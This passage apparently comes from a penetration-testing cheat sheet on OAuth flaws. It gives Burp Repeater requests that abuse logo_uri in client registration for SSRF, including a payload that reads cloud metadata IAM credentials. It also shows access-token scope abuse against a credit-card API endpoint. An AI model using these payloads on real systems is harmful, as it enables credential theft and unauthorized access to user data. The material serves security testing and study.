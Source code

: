 ````jsx
    3. In Burp Repeater, create a suitable POST request and retrieve registration data like "client_id"
    ----------------------------------------------
    POST /reg
    HTTP/1.1
    Host: TARGET-OAUTH-SERVER.net
    Content-Type: application/json
    { "redirect_uris" : [
     "<https://example.com>" ]
    }
    ---------------------------------------------
    4. Send the GET /client/CLIENT-ID/logo request to Burp Repeater
    5. Go back to "POST /reg" request,Add the "logo_uri" ,test if it's vulnerable to ssrf
    -------------------------------------------------
    POST /reg
    HTTP/1.1
    Host: TARGET-OAUTH-SERVER.net
    Content-Type: application/json
    { "redirect_uris" : [
     "<https://example.com>" ], "logo_uri" :
    "<https://BURP-COLLABORATOR-PAYLOAD>"
    }
    -------------------------------------------------
    6. Try Read meta data files like
       "logo_uri" : "<http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/>"
    ```
### OAUTH Code Flaws
    
```jsx
    1. Can code be reused few times for an hour ?
    2. Can code be brute forced? Is there rate limits?
    3. is code for application X valid for application Y?
    ```
### **Access Token Scope Abuse**
    
 ```python
    <https://www.example.com/admin/oauth/authorize?[>...]&scope=read\\_profile\\
    &redirect_uri=/
    
    If all goes well, you will notice a response that looks something like this:
    
    {
    "access_token": "eyJz93a...k4laUWw",
    "refresh_token": "GEbRxBN...edjnXbL",
    "id_token": "eyJ0XAi...4faeEoQ",
    "token_type": "Bearer"
    
    }
    
    Now use this token to try to access another API endpoint that requires an elevated scope, for example:
    
    <https://www.example.com/api/v2/getCreditCardInfo?access_token=eyJz93a…k4laUWw>
````
